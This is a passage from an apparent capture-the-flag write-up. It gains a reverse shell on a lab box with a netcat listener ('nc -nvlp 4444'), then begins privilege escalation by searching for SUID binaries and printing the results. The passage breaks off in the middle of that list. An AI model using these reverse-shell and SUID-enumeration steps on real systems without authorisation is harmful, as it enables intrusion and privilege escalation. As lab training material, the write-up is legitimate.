 ![put ftp](https://imgur.com/0M7SFcg.png)

Now set up a netcat listener on the specified port:

<pre>nc -nvlp 4444</pre>

I almost immediately got a connection:

![netcat](https://imgur.com/6e4dqPe.png)

I am logged in as "namelessone". The user flag is in the user's home directory:

![user.txt](https://imgur.com/AySUphG.png)

## Privilege Escalation

Pretty straight forward so far. Just modifying the script to get a reverse shell.

sudo -l doesn't work so let's check the SUID binaries. If you are unsure about finding and exploiting SUID binaries, I recommend reading this article:

[Null Byte - Exploit SUID Binaries](https://null-byte.wonderhowto.com/how-to/find-exploit-suid-binaries-with-suid3num-0215789/)

And here is a very recent TryHackMe box which included the exploitation of a SUID Binary:

[CyberGoat - BoilerCTF TryHackMe](https://www.cybergoat.co.uk/writeup/Boiler/)

To get a list of all SUID binaries, execute the following command:

<pre>find / -user root -perm -4000 -print 2>/dev/null</pre>

This returns a rather large list of binaries:

<pre>
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd                
/bin/umount                        
/bin/fusermount
/bin/ping